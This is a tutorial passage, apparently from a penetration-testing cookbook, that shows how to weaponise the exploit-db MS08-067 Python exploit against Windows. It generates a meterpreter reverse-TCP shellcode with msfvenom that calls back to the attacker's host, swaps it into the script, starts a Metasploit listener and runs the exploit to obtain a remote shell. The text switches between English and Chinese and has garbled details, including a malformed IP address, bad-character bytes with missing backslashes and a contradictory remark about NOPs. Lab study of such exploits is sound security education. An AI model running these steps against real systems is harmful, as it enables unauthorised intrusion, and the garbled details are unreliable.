    

2.  We can see that a Python script is available called "Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)". We now read the content of the Python file, the path to the file is `/usr/share/exploitdb/platforms/ windows/remote/40279.py`. Make a copy of the same on the desktop.

    

3.  On reading the file, it was found that the script was making use of a custom payload that connects to a different IP and port and not ours:

    

4.  So we will have to first edit the code and point the payload that we want to execute to our IP address and port. In order to do so we will have to make use of `msfvenom` to create our payload so that we can get this script to execute. Enter the following command on the Kali terminal to create a Python shell code for reverse connection to the Kali IP:

    ```
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali IP
    Address> LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2f
    x2ex40" -f python -a x86

    ```

    输出将如以下屏幕截图所示：

    

5.  Please note the payload created is 380 bytes. Copy the entire "buf" line that is generated and paste it in a file, rename the word `buf` with `shellcode`, since the script we are using makes use of the word `shellcode` for payload delivery. The text file would look like this:

    

    注意，我们删除了第一行`buf = ""`。

    现在，我们需要从这里开始非常小心：在 Python 脚本中提到，它们的有效负载大小是 380 字节，其余的已经填充了 NOP 以调整交付。我们必须确保相同，因此如果有 10 个 NOP 和 380 字节的代码，我们假设有 390 字节的交付，因此如果生成的 shell 代码是 385 字节，我们将只添加 5 个 NOP 以保持缓冲区不变。在目前的情况下，新的有效载荷大小也是 380，因此我们不需要摆弄 NOP。现在，我们将用我们创建的 shell 代码替换原始 shell 代码。因此，用生成的新 shell 代码替换以下突出显示的文本：

    

    请注意，我们已将整个 shell 代码替换为`/x90`NOP 代码。

6.  Once the code is replaced, save and close the file. Start Metasploit and enter the following command to initiate a listener on the Kali machine on port `443` as mentioned when we created our payload:

    ```
          msfconsole
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost <Kali IP address>
          set lport 443
          exploit

    ```

    输出将如以下屏幕截图所示：

    

7.  Now, once our handler is up, we will execute the Python script and mention the target IP address and operating system. Go to the desktop where the edited file has been copied and execute the Python file. As it is stored in the desktop, the following command is executed:

    ```
    python 40279.py 192.168.1.11.1

    ```

    输出将如以下屏幕截图所示：

    

8.  Once the script has executed come back to the listener and see if the connection has been received:

    

太棒了，我们通过使用`exploit-db`上的脚本获得了一个远程 shell。

## 它是如何工作的。。。

这其中的大部分已在演练本身中进行了解释。这里介绍的新工具是`msfvenom`。以下是所用参数的说明：

```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3
LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2fx2ex40"
-f python -a x86

```

*   `-p`：这是需要创建的有效负载。
*   `LHOST`：主机，机器应该在其中连接到后期利用。
*   `LPORT`：机器应该连接到的端口。
*   `-b`：代表坏角色。它告诉脚本在生成 shell 代码时避免使用上述字符。
*   `-f`：说明创建外壳代码的格式。
*   `-a`：这表示将在其中执行攻击的目标机器的体系结构。

## 还有更多。。。

这是了解如何编辑脚本以执行我们的需求的一个非常基本的层次。本活动旨在向读者介绍 shell 代码替换的概念。`exploit-db`上有大量与各种漏洞相关的脚本。